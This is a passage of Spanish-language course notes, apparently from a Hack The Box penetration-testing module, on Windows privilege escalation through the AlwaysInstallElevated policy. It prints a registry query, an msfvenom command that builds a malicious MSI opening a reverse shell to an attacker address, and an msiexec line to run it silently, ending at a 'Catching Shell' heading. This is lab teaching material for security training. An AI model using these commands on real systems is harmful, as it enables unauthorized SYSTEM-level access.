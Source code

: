 Vale la pena revisar este proyecto y familiarizarse con tantos binaries, scripts y libraries como sea posible. Podrían ser muy útiles durante una evaluación evasiva o en una en la que el cliente nos restrinja a solo una instancia gestionada de Windows workstation/server para probar.

---

## Always Install Elevated

Esta configuración se puede establecer a través de Local Group Policy configurando `Always install with elevated privileges` como `Enabled` en las siguientes rutas:

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

![image](https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png)

### Enumerating Always Install Elevated Settings

Vamos a enumerar esta configuración.

```r
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Nuestra enumeración nos muestra que la clave `AlwaysInstallElevated` existe, por lo que la política está habilitada en el sistema objetivo.

### Generating MSI Package

Podemos explotar esto generando un `MSI` package malicioso y ejecutándolo a través de la línea de comandos para obtener un reverse shell con privilegios de SYSTEM.

```r
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

### Executing MSI Package

Podemos subir este archivo MSI a nuestro objetivo, iniciar un listener Netcat y ejecutar el archivo desde la línea de comandos de esta manera:

```r
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

### Catching Shell
